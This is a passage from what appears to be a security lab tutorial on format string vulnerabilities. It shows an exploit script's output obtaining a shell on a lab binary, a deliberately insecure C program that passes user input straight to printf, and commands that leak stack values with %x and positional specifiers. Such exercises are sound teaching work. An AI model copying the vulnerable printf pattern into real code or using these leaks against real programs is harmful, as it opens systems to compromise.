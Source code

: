 
After you write 0x300 chars in v, you should obtain shell

``` {.code}
$ python exploit64.py 
[!] Could not find executable 'basic_format_string' in $PATH, using './basic_format_string' instead
[+] Starting local process './basic_format_string': pid 20785
[*] Switching to interactive mode
                                     7fffffffdcc0  7fffffffdcc01f60229b7ffff7dd18d03125786c6c393425786c6c25786c6c34786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25a6e25
$ 
```


### Extra: Format String Attack {#extraformat_string_attack .sectionedit12}


Go to the `04-format-string/` subfolder. In this task you will be working with a **32-bit binary**.

The goal of this task is to call `my_evil_func` again. This task is also tutorial based.

``` {.code .C}
int
main(int argc, char *argv[])
{
    printf(argv[1]);
    printf("\nThis is the most useless and insecure program!\n");
    return 0;
}
```


#### Transform Format String Attack to a Memory Write {#transform_format_string_attack_to_a_memory_write}


Any string that represents a useful format (e.g. `%d`, `%x` etc.) can be used to discover the vulnerability.

``` {.code .bash}
$ ./format "%08x %08x %08x %08x"
00000000 f759d4d3 00000002 ffd59bd4
This is the most useless and insecure program!
```

The values starting with 0xf are very likely pointers. Again, we can use this vulnerability as a information leakage. But we want more.

Another useful format for us is `%m$` followed by any normal format selector. Which means that the `m`th parameter is used as an input for the following format. `%10$08x` will print the `10`th paramater with `%08x`. This allows us to do a precise access of the stack.

Example:

``` {.code .bash}
$ ./format "%08x %08x %08x %08x %1\$08x %2\$08x %3\$08x %4\$08x"
00000000 f760d4d3 00000002 ff9aca24 00000000 f760d4d3 00000002 ff9aca24
This is the most useless and insecure program!
```
